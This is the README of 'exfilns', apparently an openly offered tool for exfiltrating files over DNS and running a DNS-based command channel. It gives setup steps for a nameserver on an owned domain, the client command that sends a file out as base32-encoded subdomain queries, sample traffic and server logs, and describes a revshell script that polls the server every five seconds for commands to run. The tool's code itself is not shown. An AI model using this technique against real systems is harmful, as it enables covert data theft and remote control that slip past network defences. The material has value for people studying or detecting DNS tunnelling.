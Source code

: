 # exfilns
Setup: 
have a NS record for the domain you want to use pointed to a server you own

As an example, I run exfil.baki.es pointed to a digital ocean droplet

```
$ dig +short exfil.baki.es NS
ubuntu-nyc1-01.cloud.baki.es.
```

On the server (ubuntu-nyc1-01.cloud.baki.es in the above example) run ns.py with root permissions (to bind to port 53) 

```
$ python3 ns.py --origin exfil.baki.es
Started dns server
```

from any Linux machine you should be able to run the fileupload.sh script to upload a file to that server and given the domain being used

With the examples above an output will look something like this from the client:

```
$ fileupload.sh /path/to/file exfil.baki.es
This file will take 7 dns requests
"Ready"
start-7.gpvkwjwoh6.fu.exfil.baki.es
krugs4zanfzsayjaorsxg5akkrugs4zanfzsayjaorsxg5akkrugs4zanfzsayj.0.gpvkwjwoh6.fu.exfil.baki.es
aorsxg5akkrugs4zanfzsayjaorsxg5akkrugs4zanfzsayjaorsxg5akkrugs4.1.gpvkwjwoh6.fu.exfil.baki.es
zanfzsayjaorsxg5akkrugs4zanfzsayjaorsxg5akkrugs4zanfzsayjaorsxg.2.gpvkwjwoh6.fu.exfil.baki.es
5akkrugs4zanfzsayjaorsxg5akkrugs4zanfzsayjaorsxg5akkrugs4zanfzs.3.gpvkwjwoh6.fu.exfil.baki.es
ayjaorsxg5akkrugs4zanfzsayjaorsxg5akkrugs4zanfzsayjaorsxg5akkru.4.gpvkwjwoh6.fu.exfil.baki.es
gs4zanfzsayjaorsxg5akkrugs4zanfzsayjaorsxg5akkrugs4zanfzsayjaor.5.gpvkwjwoh6.fu.exfil.baki.es
sxg5akkrugs4zanfzsayjaorsxg5ak.6.gpvkwjwoh6.fu.exfil.baki.es
```


And like this from the server output will now have something like this:
```
New file incoming, lines: 7
File: gpvkwjwoh6 14 % complete
File: gpvkwjwoh6 28 % complete
File: gpvkwjwoh6 42 % complete
File: gpvkwjwoh6 57 % complete
File: gpvkwjwoh6 71 % complete
File: gpvkwjwoh6 85 % complete
File: gpvkwjwoh6 100 % complete
File: gpvkwjwoh6 written to disk

```

The file is given a unique handle (above `gpvkwjwoh6`) and is written in the same folder as the python script and is base32 encoded 

There is also some basic reverse shell capabilities by using the revshell script which will check for a new command every 5 seconds

Current implementation only responds with the exit status from the command run 

You can change the command the server sends by typing it in while the dns server is running


When a client reports back to the dns server it reports the host's ID generated by the revshell script and the exit status. 

true and false are inputted here and the host respons with the exit status of true and false 
```
true
host: teo1y exited 0
false
host: teo1y exited 1
```

The client output looks like this:
```
Running true
Request: 0.teo1y.e95p7x5g62.ack.c2.exfil.baki.es
Running false
Request: 1.teo1y.e0z3zxuenu.ack.c2.exfil.baki.es
```

